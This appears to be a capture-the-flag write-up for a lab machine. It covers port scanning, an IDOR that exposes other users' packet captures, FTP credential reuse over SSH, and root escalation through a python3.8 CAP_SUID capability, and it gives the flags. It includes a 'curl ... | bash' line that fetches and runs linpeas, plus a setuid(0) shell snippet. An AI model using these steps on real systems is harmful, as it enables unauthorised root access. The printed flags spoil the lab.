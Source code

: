 # Tasks

[**How many TCP ports are open?**](#task-1)
[**After running a "Security Snapshot", the browser is redirected to a path of the format ```/something/id```, where ```id``` represents the id number of the scan. What is the ```something```?**](#task-2)
[**Are you able to get to other users' scans?**](#task-3)
[**What is the ID of the PCAP file that contains sensative data?**](#task-4)
[**Which application layer protocol in the pcap file can the sensetive data be found in?**](#task-5)
[**We've managed to collect nathan's FTP password. On what other service does this password work?**](#task-6)
[**User Flag**](#user-flag)
[**What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?**](#task-8)
[**Root Flag**](#root-flag)

# Tools Used

- nmap
- gtfobins (kind of)

# Skills used

- 

# Solutions

## Task 1

**Command:**

```
nmap -sCV [IP Address]
```

![image](https://github.com/user-attachments/assets/98695f42-0e02-4f68-9d4a-3e47b0d589ca)

**Answer: 3**

## Task 2

Just go to the website:

![image](https://github.com/user-attachments/assets/b3d0014a-1777-499c-ac22-5a133283f4bf)

That's not the landing page but the page that we need to go to find the answer, looks like an _IDOR_ might be possible.

**Answer: data**

## Task 3

![image](https://github.com/user-attachments/assets/e4430975-b9ed-43a1-895b-255b11708962)

Yes, _IDOR_ was very much possible.

**Answer: yes**

## Task 4

_Yes_

![image](https://github.com/user-attachments/assets/c8e73b82-31a1-4e5a-8cce-d9dc37170969)

**Answer: 0**

## Task 5

Check the _pcap_ file, and we'll find this:

![image](https://github.com/user-attachments/assets/d2b071e7-9fab-4e69-b345-6283af83114f)

**Answer: FTP**

Also, we're gonna be using that info a bunch so yeah.

## Task 6

So, remember how _ssh_ was open based on the scan? Yeah, that's what I thought lmao.

**Answer: ssh**

## User Flag

Log in to _ssh_, then you'll find this:

![image](https://github.com/user-attachments/assets/a1ee20f5-a706-4f7c-a223-b37d617af766)

**Answer: c96619759ff232fdc96286ad0d0ce8aa**

## Task 8

Ok so at first, I thought using this was enough to find the vulnerable binary:

```
find / -user root -perm -4000 2>/dev/null
```

This basically looks for all files with escalated privileges. Usually I use that to find vulnerable binaries.

![image](https://github.com/user-attachments/assets/e1a919cd-8bd6-493d-a7d4-1e6b35502a96)

This is what I found, but none of them were useful.

I tried to narrow it down to just _/usr/bin_ to really make sure, but even then, none of the binaries with _SUID_ set are actually useful.

So, I looked at a writeup to see how to find the vulnerable binary, apparently I gotta use _linpeas_ (or another enumeration tool/method).

Basically, the vulnerable binary can set _SUID_ via _CAP_SUID_.

So, here's what I found:

![image](https://github.com/user-attachments/assets/dede01f8-4f88-4fbd-9f8f-575b17fae8a2)

I like how it's even highlighted lol.

Anyways, here's how that happened:

Host _python web server_ in the directory with _linpeas.sh_ in it:

![image](https://github.com/user-attachments/assets/142eb20e-110e-40ba-9940-13aa3c329760)

Curl that in the _ssh_ session to run it, use this to run it directly after curling:

```
curl [Python Server Address/linpeas.sh] | bash
```

![image](https://github.com/user-attachments/assets/c5e2ea11-eaf6-4d14-a028-199c96e53d71)

And let it rip

**Answer: /usr/bin/python3.8**

## Root Flag

Use this script (since _python_ is vulnerable):

```
import os
os.setuid(0)
os.system("/bin/bash")
```

You already know the first and third lines (considering that's pretty common to do), but _os.setuid_ should be self explanatory lmao.

Also, we got that from [**GTFObins**](https://gtfobins.github.io/gtfobins/python/#suid), this specifically:

![image](https://github.com/user-attachments/assets/803c48be-a88f-4699-b126-834c7c4125bc)

Should look like this:

![image](https://github.com/user-attachments/assets/c6fb2453-4c61-4ff8-87c6-48f25ee37bdf)

Anyways, here's the flag:

![image](https://github.com/user-attachments/assets/5c1ad47f-6b86-4754-9d2d-0f5cc8cda986)

**Answer: 8d947f4a0f87dde1f469156dfa2fc22e**
